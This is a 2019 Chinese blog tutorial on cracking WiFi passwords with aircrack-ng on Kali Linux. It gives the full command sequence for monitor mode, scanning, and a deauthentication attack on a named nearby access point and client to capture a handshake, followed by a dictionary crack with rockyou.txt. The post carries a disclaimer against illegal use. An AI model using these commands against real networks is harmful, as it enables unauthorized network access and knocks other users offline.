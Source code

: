 ```yaml
---
title: 暴力法破解wifi笔记
categories:
- 渗透
tags:
- wifi破解
updated: 2019-05-09
---
```




本文只是提供一个思路，目的是为了提升学习渗透的兴趣，禁止用于非法操作，否则后果自负 ！！！





# 1.准备工作

首先你得有一个外置网卡，然后用虚拟机进行破解

所需要的设备：	kali linux  外置网卡

要将虚拟机设置为：桥接模式

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_01.png" />

然后就是将插入的外接网卡设置为：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_02.png" />

然后 ifconfig看下：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_03.png" />

接着就进行混合：

并将wlan0网卡开启混杂模式： 

```
airmon-ng start wlan0
#提示要杀掉一些进程，根据提示进行即可
airmon-ng check kill 
airmon-ng start wlan0
```

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_04.png" />

开始抓包：

首先，查看附近WiFi热点，使用命令`airodump-ng wlan0mon` 

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_05.png" />

选取其中信号较好的WiFi热点，在这里我们选取一个目标(A4-306 2.4G)

使用airodump-ng对选取的WiFi热点进行cap监听与获取： 

```
airodump-ng -c 6 --bssid 88:25:93:60:C0:D9  -w A4-3062.4G wlan0mon（注意这个位置不能有空格，哪怕原wifi名字上有，这个地方也不能有）
 
-c 通道值 WiFi热点所对应的CH值(上图中可看到)
--bssid 需要破解WiFi的MAC值
-w cap文件名
wlan0mon 启用混杂模式的网卡名 
```

这个时候看到有12个设备进行了连接，选取一个为75-D7的进行抓包：（需要一直开启）

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_06.png" />

使用aireplay-ng 对选取的WiFi热点进行cap监听与获取： （再启动一个命令行）

```
aireplay-ng -0 2 -c E8:4E:06:21:75:D7  -a 88:25:93:60:C0:D9 wlanmon
 
-0 death模式，2为发送次数
-c 你所选择要断网操作的客户机MAC
-a WiFi热点MAC
```

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_07.png" />

有时候一次抓不到，多试几次，我试了三次之后，抓到了：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_08.png" />

这个时候监听就可以停止了：

然后就是跑包了：

我们直接使用kali自带的，在文件目录中，需要解压（这里不做演示）

```
#首先ls查看当前目录所产生的握手包
aircrack-ng -w rockyou.txt A4-3062.4G-02.cap
w代表字典
接着你的包名称
```

然后就等结果吧！（其实如果wifi密码复杂的话，基本上很难跑出来）

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_09.png" />

这个只是一个笔记，现在暴力破解的太难了，wifi密码稍微一复杂，基本就无望。	

2019年11月更新：

现在使用kali自带的aircrack好像已经过时了，我在网上看到有更好、能跑GPU的工具了，具体的名字忘了，大家可以自行搜索，另外很多人再问我的无线网卡的型号，我的记得就30左右，不用买太好的，一般的就行：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_10.png" />

最重要的还是字典问题，当然还有一种破解的方法是对pin包检测，但是那种方法只适合更老的路由器设备，现在的路由器基本上都可以防pin了，所以在这里就不再演示了。



